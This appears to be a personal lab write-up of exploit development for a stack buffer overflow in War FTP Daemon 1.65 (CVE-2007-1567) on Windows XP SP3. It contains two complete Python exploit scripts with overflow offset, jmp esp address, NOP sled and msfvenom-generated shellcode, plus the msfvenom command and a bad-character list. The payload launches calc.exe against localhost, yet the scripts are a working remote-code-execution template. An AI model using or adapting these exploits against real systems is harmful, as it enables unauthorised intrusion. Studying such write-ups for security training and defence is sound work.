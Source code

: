 # War FTP Daemon 1.65 _ Win XP SP3 - Buffer Overflow


-   cve details: [CVE-2007-1567](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-1567)
-   Target: War FTP Daemon 1.65 
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

For run server click this button:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2007-1567_BOF/images/3.JPG)


If you have this error:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2007-1567_BOF/images/2.JPG)

clean in war ftp folder this file: FtpDaemon.dat \
I send several "A" to program but it recive a msg for send USER. I send 1000 * "A" by perfix with "USER" and program crashed. I use MONA for detect exactly BOF location and I find it fr 485. I test it and evrything is OK. I add my shellcode and "jmp esp"'s address to my exploit :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

shellcode=("\xbf\x9f\x6d\xb4\x7d\xda\xcb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
"\x31\x31\x7a\x13\x03\x7a\x13\x83\xea\x63\x8f\x41\x81\x73\xd2"
"\xaa\x7a\x83\xb3\x23\x9f\xb2\xf3\x50\xeb\xe4\xc3\x13\xb9\x08"
"\xaf\x76\x2a\x9b\xdd\x5e\x5d\x2c\x6b\xb9\x50\xad\xc0\xf9\xf3"
"\x2d\x1b\x2e\xd4\x0c\xd4\x23\x15\x49\x09\xc9\x47\x02\x45\x7c"
"\x78\x27\x13\xbd\xf3\x7b\xb5\xc5\xe0\xcb\xb4\xe4\xb6\x40\xef"
"\x26\x38\x85\x9b\x6e\x22\xca\xa6\x39\xd9\x38\x5c\xb8\x0b\x71"
"\x9d\x17\x72\xbe\x6c\x69\xb2\x78\x8f\x1c\xca\x7b\x32\x27\x09"
"\x06\xe8\xa2\x8a\xa0\x7b\x14\x77\x51\xaf\xc3\xfc\x5d\x04\x87"
"\x5b\x41\x9b\x44\xd0\x7d\x10\x6b\x37\xf4\x62\x48\x93\x5d\x30"
"\xf1\x82\x3b\x97\x0e\xd4\xe4\x48\xab\x9e\x08\x9c\xc6\xfc\x46"
"\x63\x54\x7b\x24\x63\x66\x84\x18\x0c\x57\x0f\xf7\x4b\x68\xda"
"\xbc\xa4\x22\x47\x94\x2c\xeb\x1d\xa5\x30\x0c\xc8\xe9\x4c\x8f"
"\xf9\x91\xaa\x8f\x8b\x94\xf7\x17\x67\xe4\x68\xf2\x87\x5b\x88"
"\xd7\xeb\x3a\x1a\xbb\xc5\xd9\x9a\x5e\x1a")


exploit="A"*485 + "\xd7\x30\x9d\x7c" + "\x90"*8 + shellcode

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()

```

But My shellcode not work and something is wrong. I think myshellcode have badcharacters and I use mona and manually to find it. after several try I find this 
badcharacters: "\x00\x0a\x0d\x40". and I use msfvenum to create shellcode witout this badcharacters.

```
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe  -f c -b '\x00\x0a\x0d\x40'
```

I add it to my exploit but it Not work. I analysis it and find problem. When I send exploit with "\x90"*8 ,in the buffer show 5's NOP in the buffer. I add 3 extra
to My exploit :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

shellcode=("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")


exploit="A"*485 + "\xd7\x30\x9d\x7c" + "\x90"*11 + shellcode

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2007-1567_BOF/images/1.JPG)
